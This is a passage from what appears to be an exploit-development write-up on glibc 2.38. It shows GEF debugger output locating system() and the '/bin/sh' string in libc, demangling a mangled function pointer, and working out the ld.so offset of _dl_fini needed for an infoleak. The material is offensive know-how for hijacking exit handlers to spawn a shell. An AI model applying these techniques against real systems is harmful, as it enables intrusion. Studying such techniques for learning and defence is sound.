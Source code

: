 ```
0x00007f15e5772000 0x00007f15e57c8000 0x0000000000172000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
0x00007f15e57c8000 0x00007f15e57c9000 0x00000000001c8000 --- /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
0x00007f15e57c9000 0x00007f15e582c000 0x00000000001c8000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
0x00007f15e582c000 0x00007f15e582e000 0x000000000022b000 rw- /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
0x00007f15e582e000 0x00007f15e583b000 0x0000000000000000 rw-
0x00007f15e594f000 0x00007f15e5954000 0x0000000000000000 rw-
0x00007f15e5954000 0x00007f15e5955000 0x0000000000000000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f15e5955000 0x00007f15e597b000 0x0000000000001000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f15e597b000 0x00007f15e5985000 0x0000000000027000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f15e5986000 0x00007f15e5988000 0x0000000000031000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f15e5988000 0x00007f15e598a000 0x0000000000033000 rw- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007ffe3a264000 0x00007ffe3a285000 0x0000000000000000 rw- [stack]
0x00007ffe3a39d000 0x00007ffe3a3a1000 0x0000000000000000 r-- [vvar]
0x00007ffe3a3a1000 0x00007ffe3a3a3000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
gef➤  p system
$3 = {int (const char *)} 0x7f15e5648810 <__libc_system>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6'(0x7f15e5772000-0x7f15e57c8000), permission=r--
  0x7f15e578cf2d - 0x7f15e578cf34  →   "/bin/sh"
```

Python3 demangling:

```
>>> print(hex(demangle_instruction_ptr(0xc430e2e39c21895c, 0xc4ae1d0d94e44320)))
0x7f15e5958d30
```

There is another piece of the puzzle we will need. We will need to know the address of `_dl_fini`. The issue is, `_dl_fini` is a function present in the linker (`ld.so`), not libc, as we see here:

```
gef➤  p _dl_fini
$1 = {void (void)} 0x7f13fd253d30 <_dl_fini>
gef➤  vmmap 0x7f13fd253d30
[ Legend:  Code | Heap | Stack ]
Start           End             Offset          Perm Path
0x00007f13fd250000 0x00007f13fd276000 0x0000000000001000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
```

So, we will need a `ld.so` infoleak, to know the address of the `_dl_fini` function (offset of `0x7f13fd253d30 - 0x00007f13fd250000 = 0x3d30`).
